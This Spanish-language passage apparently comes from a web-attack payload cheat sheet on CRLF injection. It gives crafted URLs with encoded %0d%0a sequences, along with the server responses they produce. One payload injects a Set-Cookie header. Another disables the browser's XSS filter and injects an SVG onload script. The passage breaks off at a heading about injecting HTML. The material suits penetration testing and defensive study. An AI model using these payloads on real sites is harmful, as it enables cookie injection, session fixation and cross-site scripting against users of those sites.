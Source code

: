 Página solicitada

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

Respuesta HTTP

```bash
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue #injection
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block`
```

**_La entrada controlable y reflejada es la URL que se refleja en la cookie location_**

### CRLF - Agregar una cookie - Omitir XSS

Página solicitada

```http
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

Respuesta HTTP

```bash
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

### CRLF - Injectar codigo HTML
